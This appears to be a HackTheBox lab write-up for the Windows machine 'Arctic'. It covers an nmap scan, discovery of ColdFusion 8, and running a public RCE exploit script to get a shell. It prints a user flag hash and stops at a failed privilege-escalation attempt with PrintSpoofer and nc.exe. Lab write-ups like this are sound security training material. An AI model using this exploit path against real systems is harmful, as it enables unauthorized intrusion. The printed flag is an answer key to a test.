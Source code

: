 ```yaml
---
title: "Artic"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Artic

![](../assets/Pasted%20image%2020250608193154.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 19:33 CEST
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   39.95 ms 10.10.14.1
2   40.27 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.34 seconds
```

Browsing `port` `8500`

![](../assets/Pasted%20image%2020250608195223.png)

Exploring some ColdFusion files, we see the version: `8`

![](../assets/Pasted%20image%2020250608200629.png)

## Initial Access

Using `searchsploit`, we can get an RCE for version `8`.

![](../assets/Pasted%20image%2020250609182914.png)

Executing it, we get a shell.

```shell
$ python 50057.py

Generating a payload...
Payload size: 1497 bytes
Saved as: b7172b096b3d440aa353a65a5d0acac3.jsp

...


...

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Get the flag:

```shell
C:\Users\tolis\Desktop>type user.txt
type user.txt
f7e361c9b62bb18b40ca4fc348bf549f
```

## Privilege Escalation

```shell
whoami /priv                                                                                           
                                                                                                       
PRIVILEGES INFORMATION                                                                                 
----------------------                                                                                 
                                                                                                       
Privilege Name                Description                               State                          
============================= ========================================= ========                       
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                        
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                        
SeCreateGlobalPrivilege       Create global objects                     Enabled                        
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The user has `SeImpersonatePrivilege`, so transfer `nc.exe` and `PrintSpoofer` to the machine.

!!! bug

    I can't get it to work.